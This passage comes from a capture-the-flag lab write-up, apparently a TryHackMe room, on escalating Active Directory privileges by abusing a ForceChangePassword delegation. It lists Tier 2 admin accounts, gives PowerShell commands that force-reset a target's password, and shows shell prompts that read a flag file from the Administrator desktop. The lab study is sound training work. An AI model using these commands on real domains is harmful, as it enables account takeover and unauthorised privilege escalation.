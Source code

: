 If everything worked, you should see your account as a member.

### ForceChangePassword

Now that we are a member of the _IT Support_ group, we have inherited the ForceChangePassword Permission Delegation over the _Tier 2 Admins_ group. First, we need to identify the members of this group to select a target. We can use the **Get-ADGroupMember** cmdlet again to assist with this:

```shell-session
PS C:\>Get-ADGroupMember -Identity "Tier 2 Admins"
distinguishedName : CN=t2_lawrence.lewis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_lawrence.lewis
objectClass       : user
objectGUID        : 4ca61b47-93c8-44d2-987d-eca30c69d828
SamAccountName    : t2_lawrence.lewis
SID               : S-1-5-21-3885271727-2693558621-2658995185-1893

[....]

distinguishedName : CN=t2_leon.francis,OU=T2 Admins,OU=Admins,DC=za,DC=tryhackme,DC=loc
name              : t2_leon.francis
objectClass       : user
objectGUID        : 854b6d40-d537-4986-b586-c40950e0d5f9
SamAccountName    : t2_leon.francis
SID               : S-1-5-21-3885271727-2693558621-2658995185-3660
```

Make a note of the username of one of these accounts. **Since the network is shared, it might be best to select one further down in the list.** We will use the **Set-ADAccountPassword** AD-RSAT cmdlet to force change the password:

```shell-session
PS C:\>$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force 
PS C:\>Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password 
```

**Note: If you get an Access Denied error, your permissions have not yet propagated through the domain. This can take up to 10 minutes. The best approach is to terminate your SSH or RDP session, take a quick break, and then reauthenticate and try again. You could also run** `gpupdate /force` **and then disconnect and reconnect, which in certain cases will cause the synchronisation to happen faster.**

If this step worked, you should now be able to authenticate to THMWRK1 using this target account with its new password. You currently have administrative access to this workstation. Congratulations! You have officially escalated your privileged to Tier 2 Administrator by exploiting Permission Delegations.

### Practical

***

Once we've read everything, we can start, I will skip the `bloodhound` step since the path to exploit is already given by the room, let's go into ssh first:


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt